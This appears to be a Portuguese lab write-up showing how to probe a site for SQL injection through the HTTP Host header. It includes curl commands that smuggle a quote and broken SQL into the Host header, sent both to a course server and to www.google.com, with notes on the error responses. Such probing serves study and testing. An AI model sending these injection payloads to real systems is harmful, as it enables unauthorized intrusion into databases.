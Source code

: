 Podemos então explorar tal vulnerabilidade.

Utilizando o `curl` podemos realizar o forjar requests mal intencionados como descrito na confirmação da CVE.

```sh
$ ./scripts/exploit1
curl --header "Host: []' SINTAXE ERRADA" redes.io
```

![Erro de Servidor](assets/internal-server-error.png)

Podemos detectar claramente que há uma vulnerabilidade a ser explorada uma vez que não deveria ocorrer um erro interno de servidor. Testando o mesmo script para o servidor do google:

```sh
$ ./scripts/exploit2
curl --header "Host: []' SINTAXE ERRADA" www.google.com

<html><title>Error 400 (Bad Request)!!1</title></html>% 
```

Confirmamos que podemos explorar o banco de dados ao analisar o request feito ao banco:

**Requisição MySQL mal formada**
![Requisição MySQL mal formada](assets/mysql-syntax-error.png)

**Reposta MySQL**
![Resposta requisição MySQL mal formada](assets/mysql-syntax-error-response.png)
